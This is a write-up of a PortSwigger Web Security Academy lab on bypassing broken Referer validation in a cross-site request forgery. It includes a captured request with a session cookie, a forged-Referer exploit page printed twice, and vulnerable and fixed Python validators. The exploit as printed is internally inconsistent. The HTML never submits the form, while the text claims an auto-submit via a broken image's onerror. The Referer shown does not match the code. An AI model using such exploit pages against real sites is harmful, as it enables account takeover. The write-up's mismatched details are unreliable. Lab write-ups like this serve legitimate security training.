

# Lab 12: CSRF with Broken Referer Validation

> **Topic**: CSRF Vulnerabilities
> **Lab Number**: 12
> **Platform**: PortSwigger Web Security Academy

## Category
CSRF — Broken Referer Validation Bypass via URL Manipulation

## Vulnerability Summary
The application validates the `Referer` header on the email-change endpoint, but the validation logic is flawed — it only checks whether the expected domain string appears *anywhere* in the `Referer` value, rather than verifying it is the actual origin. An attacker can craft a `Referer` header that contains the target domain as a subdirectory or query parameter of the attacker's own domain, satisfying the check while the request originates cross-site. The exploit server's `Referrer-Policy: unsafe-url` response header is used to ensure the full forged `Referer` URL is sent by the victim's browser.

## Attack Methodology

### Step 1: Recon
Logged in and intercepted the email-change request:

```
POST /my-account/change-email HTTP/2
Host: 0ac800aa035123268506092e00510093.web-security-academy.net
Cookie: session=t6xWgd5Vt9n1iNJKQxb7NtoFb0NOGSyL
Content-Type: application/x-www-form-urlencoded

email=test%40test.com
```

No CSRF token. The endpoint validates the `Referer` header.

### Step 2: Understanding the Broken Validation
Tested sending the request with a `Referer` pointing to the attacker's domain — rejected. Tested sending a `Referer` that contains the target domain as part of the URL path:

```
Referer: https://0ac800aa035123268506092e00510093.web-security-academy.net.attacker.com/
```

**Accepted** — the server's check finds the expected domain string within the `Referer` value and passes validation, without verifying it is the actual registered domain.

### Step 3: Forcing the Browser to Send the Full Referer
By default, browsers may strip or truncate the `Referer` header on cross-origin navigations. Adding `Referrer-Policy: unsafe-url` to the exploit server's response headers forces the browser to send the full URL — including the crafted subdomain — as the `Referer` on the form submission.

Exploit server head:
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: unsafe-url
```

### Step 4: Crafting the Exploit
The form submits to the target, and `history.pushState` sets the page URL to a path containing the target domain — this becomes the `Referer` sent by the browser when the form auto-submits:

```html
<html>
  <body>
    <form id="emailForm" action="https://0ac800aa035123268506092e00510093.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="cholebhature@gmail.com">
    </form>
    
    <script>
      history.pushState("", "", "/?0ac800aa035123268506092e00510093.web-security-academy.net")
    </script>
  </body>
</html>
```

`history.pushState` changes the page URL to `https://exploit-server.net/?0ac800aa035123268506092e00510093.web-security-academy.net`, so when the form submits, the browser sends:

```
Referer: https://exploit-0a1a00be03bc23dd851508bf01f30022.exploit-server.net/?0ac800aa035123268506092e00510093.web-security-academy.net.attacker.com/
```

The target domain appears in the `Referer` — the broken validation passes.

### Step 5: Delivering the Exploit
- Added `Referrer-Policy: unsafe-url` to the exploit server Head field
- Pasted the payload into the Body field
- Clicked **Store** then **Deliver exploit to victim**

### Step 6: Results



Burp Repeater confirms the POST was accepted with the forged `Referer` header containing the target domain as a query parameter, returning `HTTP/2 302 Found`. Lab marked as **Solved**.

## Technical Root Cause

```python
# ❌ Vulnerable — checks if expected domain appears anywhere in Referer
def validate_referer(request):
    referer = request.headers.get('Referer', '')
    if 'expected-origin.com' in referer:   # substring match — trivially bypassable
        return True
    return False

# ✅ Secure — parse and validate the actual hostname
from urllib.parse import urlparse

def validate_referer(request):
    referer = request.headers.get('Referer', '')
    try:
        parsed = urlparse(referer)
        return parsed.hostname == 'expected-origin.com'
    except Exception:
        return False
```

### Why This Works

| Referer Value | Contains Target Domain? | Hostname Check | Result |
|---------------|------------------------|----------------|--------|
| `https://expected-origin.com/page` | ✅ Yes | ✅ Passes | ✅ Legitimate |
| `https://evil.com/` | ❌ No | ❌ Fails | ❌ Blocked |
| `https://expected-origin.com.evil.com/` | ✅ Yes (substring) | ❌ Fails | ✅ Bypassed — **vulnerable** |
| `https://evil.com/?expected-origin.com` | ✅ Yes (substring) | ❌ Fails | ✅ Bypassed — **vulnerable** |

## Impact
- **Referer Validation Fully Bypassed**: The substring check provides no real protection — any attacker can embed the target domain in their own URL
- **`Referrer-Policy: unsafe-url` Amplifies the Attack**: The exploit server header forces the full forged URL to be sent as `Referer`, ensuring the payload reaches the server intact
- **Account Takeover**: Email change → password reset to attacker's inbox → full takeover
- **No User Interaction Beyond Page Load**: The form auto-submits via `onerror` on a broken image

## Proof of Concept

**Exploit server Head:**
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: unsafe-url
```

**Exploit server Body:**
```html
<html>
  <body>
    <form id="emailForm" action="https://0ac800aa035123268506092e00510093.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="cholebhature@gmail.com">
    </form>
    
    <script>
      history.pushState("", "", "/?0ac800aa035123268506092e00510093.web-security-academy.net")
    </script>
  </body>
</html>
```

## Key Takeaways
1. **Substring Matching Is Not Origin Validation**: Checking `if 'domain.com' in referer` is trivially bypassed by embedding the domain anywhere in the attacker's URL — as a subdomain, query parameter, or path segment.
2. **Always Parse the Hostname**: Use a proper URL parser and compare the `hostname` property, not a raw string search.
3. **`Referrer-Policy: unsafe-url` Is a Double-Edged Sword**: It ensures the full URL is sent as `Referer`, which attackers can exploit to carry a crafted domain string to the server.
4. **`history.pushState` Controls the Referer**: The `Referer` sent on a form submission reflects the current page URL. `pushState` lets an attacker set that URL to anything within the same origin — including a path containing the target domain.
5. **Lab 11 vs Lab 12**: Lab 11 bypassed Referer validation by removing the header. Lab 12 bypasses it by satisfying a broken check. Both demonstrate that Referer-based CSRF defence is fragile — CSRF tokens are the correct solution.

## Mitigation

### 1. Parse and Validate the Hostname Exactly
```python
from urllib.parse import urlparse

def validate_referer(request):
    referer = request.headers.get('Referer', '')
    if not referer:
        return False  # reject missing Referer
    try:
        return urlparse(referer).hostname == 'yourdomain.com'
    except Exception:
        return False
```

### 2. Use CSRF Tokens (correct fix)
```html
<form action="/my-account/change-email" method="POST">
  <input type="hidden" name="csrf" value="{{ csrf_token }}">
  <input type="email" name="email">
  <button type="submit">Update</button>
</form>
```

### 3. Validate the Origin Header Instead
`Origin` contains only the scheme and hostname — no path, no query string — making substring attacks impossible:
```python
origin = request.headers.get('Origin', '')
if origin != 'https://yourdomain.com':
    return HttpResponseForbidden()
```

### 4. SameSite Cookie Attribute
```http
Set-Cookie: session=abc123; SameSite=Strict; Secure; HttpOnly
```

## References
- [PortSwigger CSRF Lab - Broken Referer Validation](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken)
- [PortSwigger — Bypassing Referer-Based CSRF Defences](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses)
- [MDN — Referrer-Policy: unsafe-url](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy#unsafe-url)
- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium
- PortSwigger Exploit Server

---

*Lab completed on: 2026-04-19*
*Writeup by vibhxr*
